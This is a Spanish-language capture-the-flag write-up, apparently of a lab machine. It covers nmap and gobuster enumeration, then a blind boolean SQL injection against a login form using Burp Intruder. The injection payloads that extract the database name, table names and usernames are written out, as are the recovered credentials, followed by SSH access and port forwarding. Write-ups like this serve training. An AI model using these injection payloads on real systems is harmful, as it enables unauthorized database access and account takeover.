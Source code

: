### nmap
```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 20:02 EST
Nmap scan report for 10.10.64.85
Host is up (0.18s latency).
Not shown: 64902 closed tcp ports (reset), 631 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0:c5:69:e6:dd:6b:81:0c:da:32:be:41:e3:5b:97:87 (RSA)
|   256 6c:65:ad:87:08:7a:3e:4c:7d:ea:3a:30:76:4d:04:16 (ECDSA)
|_  256 2d:57:1d:56:f6:56:52:29:ea:aa:da:33:b2:77:2c:9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.21 seconds
```

### Ports: 22/ssh - 80/http

### Enumeración del puerto 80
vamos a intentar hacer una inyección sqli
![[Pasted image 20240204210908.png]]

![[Pasted image 20240204211038.png]]
parece que la pagina esta en mantenimiento. 

vamos a probar otras inyecciones diferentes
![[Pasted image 20240204213231.png]]

![[Pasted image 20240204213305.png]]

### Fuzzing con gobuster

![[Pasted image 20240204213332.png]]
parece que no tenemos ningún directorio que sea de ayuda. 

### sqli usando Burpsuite

```python
	'+and+substring(database(),1,1)="a"+#
```

vamos a interceptar una peticion con burpsuite
![[Pasted image 20240204220002.png]]

intruder
![[Pasted image 20240204220113.png]]

configuramos el payloads
![[Pasted image 20240204220220.png]]
obtenemos como respuesta 

```python
	username=kitty'+and+substring(database(),1,1)="m"+#&password=kitty
```

para la segunda posición obtenemos la letra "y"
![[Pasted image 20240204222627.png]]

para el tercer posición obtenemos la letra "w"
![[Pasted image 20240204223225.png]]
tenemos que hacer esto cambiando la posición hasta conseguir información sobre el nombre de la base de datos

usaremos este parametro para obtener informacion sobre las tablas

```python
	username=kitty'+and+substring((select+table_name+from+information_schema.tables+where+table_schema="mywebsite"+limit+0,1),1,1)="a"+#&password=kitty
```

el primer resultado nos da la letra "s"
![[Pasted image 20240204235500.png]]

ejecutamos el ataque cambiando la posición, en este caso nos da la letra "i"
![[Pasted image 20240205000151.png]]
tenemos que hacer esto hasta sacar el nombre de la tabla

```python
	username=kitty'+AND+SUBSTRING((SELECT+username+from+siteusers+LIMIT+0,1),1,1)="a"+#&password=kitty
```

sacamos carácter de la posición 4 "g"  
![[Pasted image 20240205001529.png]]
hacemos esto desde la posición 1 hasta conseguir todos los caracteres

```python
	username: kitty
	password: L0ng_Liv3_kittY
```

### ssh

![[Pasted image 20240205003102.png]]

### Escalada de Privilegios

![[Pasted image 20240205004914.png]]

conexion por ssh haciendo un port forwarding  
![[Pasted image 20240205005339.png]]

### localhost:8080

![[Pasted image 20240205005619.png]]
tenemos conexión por el puerto 8080 en el que vemos la web de parte del desarrollador

### burpsuite

![[Pasted image 20240205011158.png]]